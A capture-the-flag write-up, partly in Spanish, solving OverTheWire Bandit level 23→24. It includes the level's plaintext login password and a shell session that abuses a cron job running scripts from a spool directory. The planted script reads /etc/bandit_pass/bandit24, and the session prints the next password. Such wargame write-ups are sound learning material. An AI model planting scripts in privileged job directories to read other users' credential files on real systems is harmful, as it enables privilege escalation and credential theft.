 ## Objetivo
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

## Datos de acceso al nivel
Usuario: bandit23@bandit.labs.overthewire.org
Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
Puerto: 2220
## Solución
bandit23@bandit:~$ cat /etc/cron.d/
cat: /etc/cron.d/: Is a directory
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:~$ cat /etc/bandit_pass/bandit23
QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G
bandit23@bandit:~$ cd /tmp
bandit23@bandit:/tmp$ mkdir 123456
bandit23@bandit:/tmp$ cd 123456
bandit23@bandit:/tmp/123456$ vim
bandit23@bandit:/tmp/123456$ ls
script.sh
bandit23@bandit:/tmp/123456$ cat script.sh
cat /etc/bandit_pass/bandit24 >> /tmp/123456/llave.txt
bandit23@bandit:/tmp/123456$ ls -la script.sh
-rw-rw-r-- 1 bandit23 bandit23 55 Feb 26 15:28 script.sh
bandit23@bandit:/tmp/123456$ chmod 777 script.sh
bandit23@bandit:/tmp/123456$ ls -la script.sh
-rwxrwxrwx 1 bandit23 bandit23 55 Feb 26 15:28 script.sh
bandit23@bandit:/tmp/123456$ touch llave.txt
bandit23@bandit:/tmp/123456$ chmod 777 llave.txt
bandit23@bandit:/tmp/123456$ ls -la
total 408
drwxrwxr-x   2 bandit23 bandit23   4096 Feb 26 15:30 .
drwxrwx-wt 860 root     root     405504 Feb 26 15:31 ..
-rwxrwxrwx   1 bandit23 bandit23      0 Feb 26 15:30 llave.txt
-rwxrwxrwx   1 bandit23 bandit23     55 Feb 26 15:28 script.sh
bandit23@bandit:/tmp/123456$ ls
llave.txt  script.sh
bandit23@bandit:/tmp/123456$ cp script.sh /var/spool/$myname/foo
cp: cannot create regular file '/var/spool//foo': Permission denied
bandit23@bandit:/tmp/123456$
bandit23@bandit:/tmp/123456$
bandit23@bandit:/tmp/123456$ cp script.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/123456$ cat llave.txt
bandit23@bandit:/tmp/123456$ cat llave.txt
bandit23@bandit:/tmp/123456$ cat llave.txt
bandit23@bandit:/tmp/123456$ cat llave.txt
bandit23@bandit:/tmp/123456$ cat llave.txt
bandit23@bandit:/tmp/123456$ cat llave.txt
bandit23@bandit:/tmp/123456$ cat llave.txt
bandit23@bandit:/tmp/123456$ cat llave.txt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
## Notas
Chmod es usado para quitar y dar permisos, en este caso se usó 777 para dar permisos de ejecución

## Referencias 
